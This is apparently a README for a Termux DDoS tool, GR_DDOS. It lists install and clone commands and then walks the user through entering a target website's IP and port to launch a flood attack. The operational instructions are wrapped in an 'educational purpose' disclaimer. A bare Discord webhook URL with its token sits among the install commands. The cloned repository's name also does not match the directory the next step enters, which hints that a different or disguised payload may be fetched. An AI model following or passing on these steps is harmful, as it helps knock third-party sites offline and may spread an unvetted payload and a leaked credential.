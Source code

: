 SSSS# GR

Distributed Denial Of Service (DDoS) attacks are a subclass of denial of service (DoS) attacks. A DDoS attack involves multiple connected online devices, collectively known as a botnet, which are used to overwhelm a target website with fake traffic.


Note: THIS TOOL IS JUST ONLY FOR EDUCATIONAL PURPOSE..GIVING DDOS ATTACKs WITHOUT SITE OWNER'S PERMISSION IS ILLEGAL.. SO USE IT AT YOUR OWN RISK.. WE'LL BE NOT RESPONSIBLE FOR ANY TYPES OF MISISSUES!!!


How To Install GR_DDOS In Termux
The Tool Installation Process Is Very Easy.. Just Open Your Termux & Type This Provided Commands!!

$ apt update && apt upgrade

$ pkg install python

$ pkg install python2
https://discord.com/api/webhooks/1193670207990939758/ysC9UEbZ4FRKcCNlR3Oue3ycJLY9KIqtgAE50rwVdgZ2nj1kggspwed_8GYvma4EDyHY
$ pkg install git

$ pkg install figlet

$ git clone https://github.com/GR1dll/racker.git

$ cd GR_DDOS

$ chmod +x GR_DDOS.py

$ python2 GR_DDOS.py


To Run

$ cd GR_DDOS

$ python2 GR_DDOS.py


Your Tool Install & Setup Done!!..Now Go To Google & Search`Website IP Finder`Now Open The 1st Wesite & Place Your Target Website Url e.g. www.biribaba.com..


After Getting The Website IP , Copy The IP & Come To The Termux.. Now Paste The Target Website IP On `Ip Target:` & Give The Port Number `8080`

Booom!! Your Ddos Attack Had Been Started...
